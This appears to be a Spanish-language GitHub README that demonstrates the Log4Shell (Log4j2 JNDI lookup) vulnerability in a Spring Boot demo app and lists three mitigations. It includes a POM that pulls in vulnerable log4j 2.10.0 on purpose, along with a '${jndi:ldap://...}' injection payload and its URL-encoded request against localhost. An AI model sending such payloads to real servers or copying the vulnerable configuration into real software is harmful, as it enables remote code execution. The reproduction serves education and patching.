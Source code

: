 # Log4J2 Vulnerability and Spring Boot

Según el comunicado oficial:

Spring Boot users are only affected by this vulnerability if they have 
switched the default logging system to Log4J2. The log4j-to-slf4j and 
log4j-api jars that we include in spring-boot-starter-logging cannot be 
exploited on their own. Only applications using log4j-core and including 
user input in log messages are vulnerable.

[Log4J2 vulnerability Springboot](https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot)

# Como reproducir la vulnerabilidad

Dentro del POM excluir el loggin default mediante la siguiente configuración en el POM
```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.10.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.10.0</version>
</dependency>
```
### Prueba sin incidentes
El aplicativo cuenta con un método GET recibe un parámetro el cual se escribe en log mediante LogManager.
Para probar ejecutar el siguiente método en algun navegador o herramienta de peticiones REST.  
GET  
http://localhost:8080/vuln&input=HolaMundo

El resultado es la escritura de "HolaMundo dentro del log de forma normal"

```
INFO 86203 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : FrameworkServlet 'dispatcherServlet': initialization started
INFO 86203 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : FrameworkServlet 'dispatcherServlet': initialization completed in 12 ms
INFO 86203 --- [nio-8080-exec-1] c.e.v.VulnController                     : Input: ${jndi:ldap://127.0.0.1:3089/}
```

### Prueba con instrucción JNDI

Necesitamos generar una instrucción de consulta JNDI, en este ejemplo se intenta una conexión a LDAP.  
```
${jndi:ldap://127.0.0.1:3089/}
```

Para enviar esta instrucción mediante el método GET la normalizamos mediante algún servicio de encoder  
https://www.urlencoder.org/

URL Encode:
%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A3089%2F%7D

Ejecutamos la misma consulta del ejercicio pasado y veremos como se lanza una consulta JNDI en lugar 
de solo pintar en log  
GET  
http://localhost:8080/vuln&input=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A3089%2F%7D

```
INFO 86256 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : FrameworkServlet 'dispatcherServlet': initialization started
INFO 86256 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : FrameworkServlet 'dispatcherServlet': initialization completed in 13 ms
http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1:3089/]. javax.naming.CommunicationException: 127.0.0.1:3089 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at java.naming/com.sun.jndi.ldap.Connection.<init>(Connection.java:244)
```

### Corrección de vulnerabilidad

#### Método 1:

Basta agregar la siguiente línea de configuración a la JVM.
```
java -jar [app.jar] -Dlog4j2.formatMsgNoLookups=true
```
Nota: se tiene que agregar al momento de invocar la JVM, de nada sirve agregarlo al application.properties.  

#### Método 2:
Utilizar la librería propia de Springboot sin la exclusión mencionada al inicio  
```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.10.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.10.0</version>
</dependency>
```  
Nota: Aunque tengamos la siguiente estructura, sino especificamos la exclusión, no importa que esten especificadas
las dependencias de log4j, Springboot las va a ignorar y no tendremos la vulnerabilidad.  

#### Método 3:
Hacer el upgrade de log4j a la versión 2.16 que soluciona este incidente.  
```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.16.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.16.0</version>
</dependency>
```

## Contributors

Javier Rodríguez

